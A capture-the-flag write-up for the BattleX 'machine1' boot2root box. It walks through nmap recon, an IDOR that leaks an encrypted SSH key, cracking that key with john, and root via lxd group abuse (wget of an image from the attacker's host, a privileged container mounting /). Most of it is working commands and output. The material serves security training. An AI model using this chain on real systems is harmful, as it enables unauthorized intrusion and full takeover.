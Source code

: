 ## BattleX CTF: machine1
#### Category: Boot2Root
#### Score: 60
#### Number of Solves: 3 
### Description

> You know what to do

### TL; DR

Exploit IDOR in a web app and get access to sensitive information, in this case, a SSH private key, encrypted with a weak password. Using that as access and exploiting lxd group to get root access on this machine

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-30 02:39 WAT
Nmap scan report for 10.10.146.166
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proverb Categories
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
```

    
### Initial access

![Imgur](https://i.imgur.com/4Z78fz0.png)

_Web server on port 80_

On checking the links in the proverb categories, they looked strange and similarly structured.

![Imgur](https://i.imgur.com/dEeLuF0.png)

They resemble an MD5 encoded text so I proceeded to use crackstation to try and reverse the text.

![Imgur](https://i.imgur.com/SOjlcBY.png)

My guess was right and it should be possible for me to generate my own MD5 and exploit an IDOR (Insecure Direct Object References) vulnerability. I generated several numbers in MD5 and tried to see if it existed, until `0`.

![Imgur](https://i.imgur.com/ERvoHX2.png)

It contained both public ssh and an encrypted private ssh key. The public key showed who owns them, `jayhunts`. I copied the private key to a file for cracking, using ssh2john and john.

![Imgur](https://i.imgur.com/akAJNrQ.png)

_Password found_

Now that the password has been found, login via ssh shouldn't be an issue. 

![Imgur](https://i.imgur.com/XjqnC6R.png)

_Login success_

```
jayhunts@BattleX:~$ cat user.txt
BattleX{e99a18c428cb38d5f260853678922e03}
jayhunts@BattleX:~$
```

User flag: `BattleX{e99a18c428cb38d5f260853678922e03}`

### Privilege escalation

```
jayhunts@BattleX:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[snip]
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jayhunts:x:1000:1000:,,,:/home/jayhunts:/bin/bash
jayhunts@BattleX:~$ id
uid=1000(jayhunts) gid=1000(jayhunts) groups=1000(jayhunts),108(lxd)
```

After checking for users in `/etc/passwd` file, I ran id and saw that jayhunts is in the `lxd` group. This can be taken advantage of to get root access on this machine. 

I ran this on my pc to start the privilege escalation proceedure

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

It soon created a `alpine-v3.13-x86_64-20210218_0139.tar.gz` in the folder. Next I snuck the image to the machine with my simple http server, using wget.

```
wget http://MY_IP:8080/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

```
jayhunts@BattleX:~$ lxc image import import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a

jayhunts@BattleX:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:
Create a new BTRFS pool? (yes/no) [default=yes]:
Would you like to use an existing block device? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=15GB]:
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:

jayhunts@BattleX:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer

jayhunts@BattleX:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer

jayhunts@BattleX:~$ lxc start mycontainer
jayhunts@BattleX:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jun 30, 2024 at 11:04am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
jayhunts@BattleX:~$ lxc exec mycontainer /bin/sh
~ # whoami
root
~ # pwd
/root
~ # ls
~ # cd /mnt/root
/mnt/root # ls
bin             etc             lib             mnt             run             swap.img        var
boot            home            lib64           opt             sbin            sys             vmlinuz
cdrom           initrd.img      lost+found      proc            snap            tmp             vmlinuz.old
dev             initrd.img.old  media           root            srv             usr
/mnt/root # cd root
/mnt/root/root # ls -lah
total 36K
drwx------    6 root     root        4.0K Jun 21 15:43 .
drwxr-xr-x   24 root     root        4.0K Jun 14 20:01 ..
lrwxrwxrwx    1 root     root           9 Jun 15 04:14 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Jun 21 15:41 .bashrc
drwx------    2 root     root        4.0K Jun 16 00:46 .cache
drwx------    3 root     root        4.0K Jun 16 00:46 .gnupg
drwxr-xr-x    3 root     root        4.0K Jun 14 21:21 .local
-rw-r--r--    1 root     root         148 Aug 17  2015 .profile
drwx------    2 root     root        4.0K Jun 14 20:51 .ssh
-rw-------    1 root     root          42 Jun 21 15:43 root.txt
/mnt/root/root # cat root.txt
BattleX{c4ca4238a0b923820dcc509a6f75849b}
```

That's all for machine1

Root flag: `BattleX{c4ca4238a0b923820dcc509a6f75849b}`

### References

1. [Hacktricks lxd privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)

